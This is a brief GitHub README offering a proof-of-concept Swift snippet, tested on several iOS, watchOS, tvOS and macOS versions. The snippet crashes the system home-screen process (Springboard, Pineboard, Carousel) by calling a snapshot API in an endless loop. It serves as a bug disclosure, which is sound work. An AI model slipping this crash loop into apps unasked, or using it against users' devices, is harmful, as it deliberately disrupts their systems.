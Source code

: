 # Respring
## Proof of concept code to crash Springboard/Pineboard/Carousel 

Tested on iOS 15.0, 14.3, 13.3,
          watchOS 7.5, 8.0
          tvOS 14.3
          macOS 11.1, 12.0

To cause the crash run the following code
```swift
guard let window = UIApplication.shared.windows.first else { return }
while true {
   window.snapshotView(afterScreenUpdates: false)
}
```
